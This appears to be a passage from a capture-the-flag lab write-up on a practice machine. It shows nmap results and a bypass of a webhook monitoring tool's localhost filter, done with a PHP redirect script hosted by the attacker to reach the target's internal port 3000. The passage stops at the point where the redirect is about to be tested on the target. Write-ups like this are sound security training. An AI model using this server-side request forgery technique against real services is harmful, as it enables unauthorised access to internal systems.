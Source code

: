 Following a guide for this one was stuck on the union injection in foothold and setting up gogs locally. Everything else I did on my own. :)

IP: 10.10.11.176
# Enumeration
## Nmap
```bash
Host is up (0.0087s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HTTP Monitoring Tool
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
3 ports not closed.
## Port 80
Seems to be a utility to check if a website is up. We can check if it works by using our IP. `10.10.14.47`
```
Payload URL: http://10.10.14.47:9001
Monitored URL: http://10.10.14.47
Interval: */1 * * * *
Under what circumstances should the webhook be sent? Always
```
Listening on both port 9001 and 80 then sending the request.

Connection on port 80 first then a json request to 9001.
# Explotation
## WAF Bypass
When trying to get the webhook to call localhost says the request is not allowed. Instead of directly calling the URL we can use a redirect header in php which will forward the request from our host to the box.
```
webhook -[send request]-> host -[redirect]-> tagertserver port 3000
```
Testing this works.

Create index.php
```php
<?php
header('Location: http://127.0.0.1:3000');
die();
?>
```
Start the server
```bash
sudo php -S 0.0.0.0:9002
```
Checking it works locally.
```bash
curl localhost:9002 -v
```
This shows the location header now to test it on the targetserver.
